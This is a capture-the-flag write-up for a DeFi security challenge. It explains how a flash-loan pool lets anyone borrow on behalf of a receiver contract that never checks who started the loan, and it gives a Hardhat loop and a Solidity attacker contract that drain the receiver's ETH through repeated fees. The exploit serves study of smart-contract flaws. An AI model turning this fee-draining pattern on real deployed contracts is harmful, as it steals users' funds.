 # Intro

There's a lending pool offering quite expensive flash loans of Ether, which has 1000 ETH in balance.

You also see that a user has deployed a contract with 10 ETH in balance, capable of interacting with the lending pool and receiveing flash loans of ETH.

Drain all ETH funds from the user's contract. Doing it in a single transaction is a big plus ;

# Attack explanation

Our objective is to drain all ETH funds from the user's contract. If we dig the contract, we can find the next function that is providing the loans:

```
function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant {
  uint256 balanceBefore = address(this).balance;
  require(balanceBefore >= borrowAmount, "Not enough ETH in pool");


  require(borrower.isContract(), "Borrower must be a deployed contract");
  // Transfer ETH and handle control to receiver
  borrower.functionCallWithValue(
      abi.encodeWithSignature(
          "receiveEther(uint256)",
          FIXED_FEE
      ),
      borrowAmount
  );

  require(
      address(this).balance >= balanceBefore + FIXED_FEE,
      "Flash loan hasn't been paid back"
  );
}
```

As we see, the address of the borrower is provided by parameter and not by msg.sender. This enables us to take loans for other addresses.

If we see the code of the receiver, we can see that it only checks that the function is called by the pool but it doesn't check who initiated the loan.

```
// Function called by the pool during flash loan
function receiveEther(uint256 fee) public payable {
  require(msg.sender == pool, "Sender must be pool");

  uint256 amountToBeRepaid = msg.value + fee;

  require(address(this).balance >= amountToBeRepaid, "Cannot borrow that much");

  _executeActionDuringFlashLoan();

  // Return funds to pool
  pool.sendValue(amountToBeRepaid);
}
```

In order to beat the level, we need to borrow 10 times from the vulnerable sc address, so the fees drain the funds.

# Attack function

If we want to do it in multiple transactions, we can just type:

```
it("Exploit", async function () {
  for (let i = 0; i < 10; i++) {
    await this.pool.flashLoan(
      this.receiver.address,
      ethers.utils.parseEther("0")
    );
  }
});
```

If we want to do it in a single transaction, we can create the following attacker contract:

```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

/**
 * @title AttackerContract
 * @author Juan Farber (github.com/Farber98)
 */
contract AttackerContract {
    constructor(address _poolAddress, address _vulnerableSc) {
        for (uint8 i = 0; i < 10; i++) {
            _poolAddress.call(
                abi.encodeWithSignature(
                    "flashLoan(address,uint256)",
                    _vulnerableSc,
                    0
                )
            );
        }
    }
}
```
